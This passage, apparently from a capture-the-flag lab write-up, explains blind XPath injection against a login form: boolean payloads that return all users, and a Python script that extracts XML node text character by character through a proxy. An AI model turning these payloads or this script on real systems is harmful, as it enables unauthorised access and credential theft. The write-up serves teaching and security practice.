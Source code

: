    //user[(false or true) or (true and false)]
    //user[true or false]
    //user[true]



and thus returns all users.

### XPath Brute Passwords

I also now have a way to test boolean statements. If I replace `1=1`
with something I don't know, if it returns the list of users, then it
must have evaluated to true. If it doesn't, then false. In fact, I can
dump the entire XML document. Some manual checks showed that there's
only one node at the root. The script does the rest:



    #!/usr/bin/env python3

    import requests
    import string
    import sys


    s = requests.session()
    #s.proxies = {'http':'http://127.0.0.1:8080'}
    s.proxies = {'http':'http://10.10.10.200:3128'}
    keys = []

    def xpath_req(test):
        resp = s.post('http://172.31.179.1/intranet.php', data={'Username':f"' or {test} or ''='", 'Password':'0xdf'})
        return 'Rita' in resp.text


    def get_text(item, alpha=string.ascii_lowercase+string.ascii_uppercase):
        global keys
        for key in keys:
            if xpath_req(f"{item}='{key}'"):
                print(key, end='', flush=True)
                return key

        i = 1
        while True:
            if xpath_req(f'string-length({item})={i}'):
                break
            if i > 100:
                print("Error")
                sys.exit()
            i += 1

        text_len = i

        res = ''
        for i in range(1, text_len+1):
            for c in alpha:
                if xpath_req(f"substring({item}, 1, {i})='{res}{c}'"):
                    res += c
                    print(f'{c}', end='', flush=True)
                    break
        keys += [res]
        return res

